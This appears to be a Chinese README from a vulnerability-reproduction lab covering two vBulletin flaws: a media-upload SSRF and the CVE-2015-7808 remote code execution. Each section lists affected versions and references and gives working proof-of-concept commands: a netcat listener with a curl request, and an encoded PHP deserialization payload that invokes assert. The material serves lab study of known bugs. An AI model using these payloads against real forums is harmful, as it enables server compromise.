 ## vBulletin MEDIA UPLOAD SSRF 漏洞

测试镜像

* src/vbulletin/5.1.4

影响版本

* vBulletin <= 5.2.2
* vBulletin <= 4.2.3
* vBulletin <= 3.8.9

参考链接

* [vBulletin MEDIA UPLOAD SSRF 漏洞分析](https://paper.seebug.org/24/)

Poc

监听本地端口：

`sudo nc -lvvp 80`

访问地址：

```
curl -d "url=http://172.17.0.1:80/hello_ssrf" "http://172.17.0.2/link/getlinkdata"
```

172.17.0.1为监听的IP地址，172.17.0.2为网站地址



## vBulletin 5 全版本远程代码执行漏洞

测试镜像

* src/vbulletin/v5.1.4

影响版本

* vBulletin 5.1.4-5.1.9

参考链接

* [vBulletin 5 全版本远程代码执行漏洞分析](https://www.anquanke.com/post/id/82870)

Poc

使用`CVE-2015-7808`目录下的`exp.php`脚本生成payload，将payload作为`arguments`数参数访问url：

`http://127.0.0.1/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D`
